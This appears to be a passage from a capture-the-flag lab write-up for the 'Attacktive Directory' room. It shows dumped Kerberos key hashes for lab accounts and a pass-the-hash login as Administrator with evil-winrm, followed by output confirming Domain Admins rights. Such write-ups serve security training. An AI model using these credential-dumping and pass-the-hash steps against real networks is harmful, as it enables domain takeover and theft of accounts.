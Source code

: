 ```bash
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:bbdc500169265044b81c63f356fd3326d73b5b83dc3b12dc9f5adcee9c69531d
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:a74b9a67c48f6c28c06f776b0cf03118
ATTACKTIVEDIREC$:des-cbc-md5:f79219863426ecce
[*] Cleaning up...
``` 
### Login to admin with evil-winrm

``` bash
$ evil-winrm -i 10.10.126.37 -u Administrator -H 0e0363213e37bXXXXX497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami; hostname; whoami /groups
thm-ad\administrator
AttacktiveDirectory

GROUP INFORMATION
-----------------

Group Name                                    Type             SID                                          Attributes
============================================= ================ ============================================ ===============================================================
Everyone                                      Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                        Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Desktop Users                  Alias            S-1-5-32-555                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                 Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access    Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                          Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users              Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
THM-AD\Group Policy Creator Owners            Group            S-1-5-21-3591857110-2884097990-301047963-520 Mandatory group, Enabled by default, Enabled group
THM-AD\Domain Admins                          Group            S-1-5-21-3591857110-2884097990-301047963-512 Mandatory group, Enabled by default, Enabled group
THM-AD\Enterprise Admins                      Group            S-1-5-21-3591857110-2884097990-301047963-519 Mandatory group, Enabled by default, Enabled group
THM-AD\Schema Admins                          Group            S-1-5-21-3591857110-2884097990-301047963-518 Mandatory group, Enabled by default, Enabled group
THM-AD\Denied RODC Password Replication Group Alias            S-1-5-21-3591857110-2884097990-301047963-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication              Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level          Label            S-1-16-12288
``` 
